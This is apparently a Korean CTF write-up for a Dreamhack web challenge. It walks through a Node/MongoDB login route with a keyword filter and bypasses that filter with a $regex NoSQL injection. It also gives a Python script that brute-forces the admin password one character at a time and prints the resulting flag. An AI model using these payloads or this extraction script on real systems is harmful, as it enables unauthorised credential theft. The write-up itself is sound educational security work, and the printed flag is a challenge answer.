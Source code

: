 문제는 **이 문제는 데이터베이스에 저장된 플래그를 획득하는 문제입니다. 플래그는 admin 계정의 비밀번호 입니다. 플래그의 형식은 DH{...} 입니다. {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}**

먼저 코드를 보겠습니다.

```js
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}

app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');
```

이번에는 파이썬이 아니라 자바스크립트 파일입니다.

먼저 path 에 따라 나누겠습니다.

(1) <img src="2.jpg">

(2) <img src="3.jpg">

1. /
위의 그림처럼 **/login?uid=guest&upw=guest** 를 화면에 출력합니다.
2. /login
위의 그림은 **/login?uid=guest&upw=guest** 를 적은 상황인데, 이렇게 **uid를 화면에 출력** 합니다.

/login 의 작동방식을 간단히 보면

1. request query 를 **filter 함수**에 넣는다.
2. filter 함수에서는 request query 를 JSON으로 만들고 **admin, dh, admi 가 들어갔는지 확인**해서, 있다면 filter 처리합니다.
3. 만약 filter 함수를 잘 통과했다면, user 콜렉션에서 **입력한 uid, upw 가 있는지 확인**해서 **있다면 uid를 화면에 출력**한다.

즉, 위에 있던 그림은 uid, upw가 guest 인 것을 찾았기 때문에 uid인 **guest 를 출력**합니다.

```js
if (err){
	res.send('err');
}else if(result){
	res.send(result['uid']);
}else{
	res.send('undefined');
}
```

위의 코드에 의해 admin **/login?uid=admin&upw=flag 값** 을 적으면 화면에 **admin**이 나올 것이다.  

테스트하기 위해 **/login?uid[$regex]=^a&upw[$regex]=^D** 를 적었다.  

<img src="5.jpg">  

위와 같이 **admin** 이 나왔다.  

또한 코드에서 힌트를 보면 flag는 **32자리**이고 **숫자, 영문자**가 들어간다.

즉, **Blind NoSQL Injection** 을 통해 한 자리씩 찾으면 됩니다.

처음에 burf suite 를 사용해서 찾으려 했지만, 브루트포스를 하는 데 생각보다 오래 걸려서 python으로 하나씩 찾았습니다.

```python
import requests
import string

# 영문자 + 숫자
tc = string.ascii_letters + string.digits

# flag : 현재까지 찾은 flag
flag = ""

# flag는 32자리 이므로 32번 반복
for i in range(32):

    # 가능한 문자를 하나씩 가져옴
    for j in tc:
        
        # uid[$regex]=^a : uid가 a로 시작함(필터 우회)
        # upw[$regex]=D.{" + flag + j : D.(아무 문자, H를 의미){" + flag(현재까지 알아낸 flag 일부) + j(현재 확인하는 문자)
        response = requests.get("http://host1.dreamhack.games:21779/login?uid[$regex]=^a&upw[$regex]=D.{" + flag + j)

        # 디버깅 용도
        # print(f'j : {j}, response : {response.text}')

        # 만약 응답 결과가 admin 이면, 한 글자를 찾았다는 뜻이므로 flag에 그 문자를 넣고 다음 문자를 알기 위해 break
        if response.text == "admin":
            flag += j
            print(f'현재 flag : DH{{{flag}}}')
            break

# flag 출력
print(f'최종 flag : DH{{{flag}}}')
```

<img src="4.jpg">  

위의 코드를 실행하면, 다음과 같이 flag 가 나옵니다.

따라서 정답은 **DH{89e50fa6fafe2604e33c0ba05843d3df}** 입니다.